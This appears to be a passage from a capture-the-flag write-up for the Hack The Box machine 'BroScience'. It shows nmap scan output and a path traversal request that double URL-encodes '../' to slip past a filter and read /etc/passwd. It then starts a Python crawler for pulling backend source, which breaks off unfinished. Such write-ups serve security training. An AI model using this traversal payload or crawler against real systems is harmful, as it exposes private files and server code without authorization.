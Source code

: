 ip: 10.10.11.195
# Enumeration
## Nmap
```bash
nmap -sC -sV -oA nmap/broscience 10.10.11.195

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.54
|_http-server-header: Apache/2.4.54 (Debian)
|_http-title: Did not follow redirect to https://broscience.htb/
443/tcp open  ssl/http Apache httpd 2.4.54 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.54 (Debian)
|_http-title: BroScience : Home
| ssl-cert: Subject: commonName=broscience.htb/organizationName=BroScience/countryName=AT
| Not valid before: 2022-07-14T19:48:36
|_Not valid after:  2023-07-14T19:48:36
| tls-alpn: 
|_  http/1.1
Service Info: Host: broscience.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Hostname of broscience.htb.

## Webapp.
Looking at the page there is a get parameter pulling a page. Tried sql injection but didn't get anything back.

Also includes a path for an img.
```http
GET /includes/img.php?path=bench.png HTTP/1.1
```

Sending `../` gives `attack detected` URL encoding?

```http
GET /includes/img.php?path=..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd HTTP/1.1
```

This works!

You can also use this to pull the backend code.

Going to build a quick python crawler to grab all the files.

# Python web crawler
```python
import requests
import urllib3
import re
from pathlib import Path

urllib3.disable_warnings()

queue = ["index.php"]
seen = []

url = 'http://broscience.htb/includes/img.php?path=..%252f'

def save_file(name,contents):
```